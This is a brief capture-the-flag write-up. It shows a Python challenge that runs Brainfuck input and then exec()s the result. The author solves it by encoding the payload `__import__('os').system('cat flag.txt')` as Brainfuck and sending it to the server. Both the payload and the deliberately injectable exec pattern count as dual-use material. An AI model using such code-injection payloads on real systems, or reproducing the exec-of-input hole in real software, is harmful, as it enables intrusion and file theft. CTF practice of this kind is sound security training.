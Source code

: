 <img width="502" height="414" alt="image" src="https://github.com/user-attachments/assets/cb784ac1-1d24-4d1d-a065-7726e585fbd0" />  

Download and open source code, we can see:  

```python
#!/usr/bin/env python3
import sys

def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1
    return output

if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)

```

Input only accept characters like: `+-<>[],.`.  
After searching, i found out it's Brainfuck Program Language.  
Using [this to encode]([url](https://www.dcode.fr/brainfuck-language)) my payload:  
```python
__import__('os').system('cat flag.txt')
```
Load it into netcat server and have the flag.  
Peace!

